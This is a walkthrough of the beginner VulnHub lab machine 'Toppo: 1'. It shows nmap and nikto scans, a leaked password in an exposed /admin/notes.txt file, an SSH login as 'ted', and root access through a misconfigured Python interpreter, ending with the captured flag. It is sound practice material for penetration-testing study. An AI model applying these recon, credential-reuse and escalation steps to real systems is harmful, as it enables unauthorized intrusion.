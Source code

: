 # Toppo: 1 CTF Walkthrough
[VulnHub URL]
## Description:
 - The Machine isn't hard to own and don't require advanced exploitation .
 - Level : Beginner
 - DHCP : activated
 - Inside the zip you will find a vmdk file , and I think you will be able to use it with any usual virtualization software ( tested with Virtualbox) .
 - If you have any question : my twitter is [h4d3sw0rm]
 - Happy Hacking ! 

## Contents:

	1. Initial scanning & recon
	2. Obtaining credentials from a leftover file
	3. Getting root thanks to misconfigured permissions

### Initial scanning & recon

I generally use three tools during my initial scanning phase, before I begin to dig into specific services and manual analysis, these three are:
	
 - Nmap
 - Nikto
 - Dirb

Nmap:

```
$ nmap -A -p- -T5 192.168.56.101

Starting Nmap 7.40 ( https://nmap.org ) at 2018-07-26 04:58 BST
Nmap scan report for 192.168.56.101
Host is up (0.0020s latency).
Not shown: 65531 closed ports
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
| ssh-hostkey:
|   1024 ec:61:97:9f:4d:cb:75:99:59:d4:c1:c4:d4:3e:d9:dc (DSA)
|   2048 89:99:c4:54:9a:18:66:f7:cd:8e:ab:b6:aa:31:2e:c6 (RSA)
|_  256 60:be:dd:8f:1a:d7:a3:f3:fe:21:cc:2f:11:30:7b:0d (ECDSA)
80/tcp    open  http    Apache httpd 2.4.10 ((Debian))
|_http-server-header: Apache/2.4.10 (Debian)
|_http-title: Clean Blog - Start Bootstrap Theme
111/tcp   open  rpcbind 2-4 (RPC #100000)
| rpcinfo:
|   program version   port/proto  service
|   100000  2,3,4        111/tcp  rpcbind
|   100000  2,3,4        111/udp  rpcbind
|   100024  1          55005/udp  status
|_  100024  1          59668/tcp  status
59668/tcp open  status  1 (RPC #100024)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 17.55 seconds
```

Nikto:

```
$ perl nikto.pl -host http://192.168.56.101/
- Nikto v2.1.5
---------------------------------------------------------------------------
+ Target IP:          192.168.56.101
+ Target Hostname:    192.168.56.101
+ Target Port:        80
+ Start Time:         2018-07-26 05:05:53 (GMT1)
---------------------------------------------------------------------------
+ Server: Apache/2.4.10 (Debian)
+ Server leaks inodes via ETags, header found with file /, fields: 0x1925 0x563f5cf714e80
+ The anti-clickjacking X-Frame-Options header is not present.
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ Allowed HTTP Methods: GET, HEAD, POST, OPTIONS
+ OSVDB-3268: /admin/: Directory indexing found.
+ OSVDB-3092: /admin/: This might be interesting...
+ OSVDB-3268: /img/: Directory indexing found.
+ OSVDB-3092: /img/: This might be interesting...
+ OSVDB-3268: /mail/: Directory indexing found.
+ OSVDB-3092: /mail/: This might be interesting...
+ OSVDB-3092: /manual/: Web server manual found.
+ OSVDB-3268: /manual/images/: Directory indexing found.
+ OSVDB-3233: /icons/README: Apache default file found.
+ 6544 items checked: 0 error(s) and 12 item(s) reported on remote host
+ End Time:           2018-07-26 05:06:17 (GMT1) (24 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```
The Dirb report didn't yield anything overly important, so it has been omitted from the walkthrough.

From these scans I can determine that the port with the highest chance of exploitability is the HTTP (80) port, the SSH (22) port may come in handy later when valid credentials have been discovered.
The Nikto and Dirb reports both uncovered an `/admin/` directory which is accessible to unauthenticated users.

### Obtaining credentials from a leftover file

Browsing to the `/admin/` directory reveals a file called `notes.txt`:
```
Note to myself :

I need to change my password :/ **12345ted123** is too outdated but the technology isn't my thing i prefer go fishing or watching soccer .
```

So now there's a password available for later, but a username and point of entry is still needed, as there is no evident login form on the website.
Obviously the only visible entry point is through the SSH service.
Considering the admin isn't very computer literate, we can assume that he does what many others like him do, put his username / real name in the password...
**Ted** definitely stands out.
```
$ ssh ted@192.168.56.101
ted@192.168.56.101's password:

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Wed Jul 25 23:18:19 2018 from 192.168.56.1
ted@Toppo:~$
```
And of course it works...
```
ted@Toppo:~$ whoami
ted
ted@Toppo:~$ id
uid=1000(ted) gid=1000(ted) groups=1000(ted),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev),114(bluetooth)
ted@Toppo:~$ cd /root
-bash: cd: /root: Permission denied
```
Sadly Ted isn't root, which is what I need to complete this challenge.

### Getting root thanks to misconfigured permissions

I'm not great with post-exploitation if I'm completely honest and privilege escalation has never been my primary skill.
However, I know to always look for programs that allow me to write and execute system commands on the box.
For example, with this box I quickly checked for Python:
```
ted@Toppo:~$ python --version
Python 2.7.9
ted@Toppo:/$ python
Python 2.7.9 (default, Aug 13 2016, 16:41:35)
[GCC 4.9.2] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>> import os
>>> os.system("whoami")
root
```
Great, so Python can execute commands as root...
Time to check the `/root/` directory:
```
>>> os.system("cd /root && ls -alt")
total 24
-rw-------  1 root root   53 Apr 15 12:28 .bash_history
drwx------  2 root root 4096 Apr 15 11:40 .
-rw-r--r--  1 root root  397 Apr 15 10:19 flag.txt
drwxr-xr-x 21 root root 4096 Apr 15 10:02 ..
-rw-r--r--  1 root root  570 Jan 31  2010 .bashrc
-rw-r--r--  1 root root  140 Nov 19  2007 .profile
0
```
`flag.txt` is the target for this challenge, so to complete it:
```
>>> os.system("cat /root/flag.txt")
_________                                  
|  _   _  |                                
|_/ | | \_|.--.   _ .--.   _ .--.    .--.  
   | |  / .'`\ \[ '/'`\ \[ '/'`\ \/ .'`\ \
  _| |_ | \__. | | \__/ | | \__/ || \__. |
 |_____| '.__.'  | ;.__/  | ;.__/  '.__.'  
                [__|     [__|              




Congratulations ! there is your flag : 0wnedlab{p4ssi0n_c0me_with_pract1ce}



0
```

[VulnHub URL]: <https://www.vulnhub.com/entry/toppo-1,245/>
[h4d3sw0rm]: <https://twitter.com/h4d3sw0rm>
